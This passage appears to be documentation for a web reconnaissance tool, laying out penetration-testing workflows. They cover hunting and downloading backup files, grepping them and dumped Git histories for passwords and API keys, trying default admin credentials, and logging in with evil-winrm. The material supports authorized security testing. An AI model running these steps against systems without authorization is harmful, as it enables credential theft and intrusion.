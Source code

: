 ### Workflow 2: Backup File Hunting
```bash
# 1. Focus on backup files
./webseek.py -f webservers.txt --backup -v

# 2. Download found backups
for url in $(cat backup_files.txt); do
    wget "$url"
done

# 3. Analyze backup files for credentials
grep -r "password\|credential\|api_key" downloaded_backups/

# 4. Test found credentials
./webseek.py -f webservers.txt -u found_user -p found_pass
```

### Workflow 3: Information Disclosure Analysis
```bash
# 1. Check for info disclosure
./webseek.py --info 10.0.0.0/24

# 2. Review phpinfo pages
grep "phpinfo" findings.txt

# 3. Screenshot for report
firefox http://192.168.1.10/phpinfo.php
# Take screenshot

# 4. Check for exploitable versions
grep "PHP Version" findings.txt
```

### Workflow 4: Admin Panel Discovery
```bash
# 1. Enumerate common paths
./webseek.py --paths -f targets.txt

# 2. Find accessible admin panels
grep "/admin" findings.txt | grep "200 OK"

# 3. Test default credentials
./webseek.py -u admin -p admin $(cat admin_panels.txt)

# 4. Attempt access
evil-winrm -i found_host -u admin -p admin
```

## Integration with Other Tools

### With Git-Dumper
```bash
# 1. Find exposed Git repos
./webseek.py --git 192.168.0.0/16

# 2. Download repository
git-dumper http://target/.git/ output/

# 3. Extract secrets
cd output
git log --all --pretty=format:"%H" | while read hash; do
    git show $hash | grep -i "password\|api_key\|secret"
done
```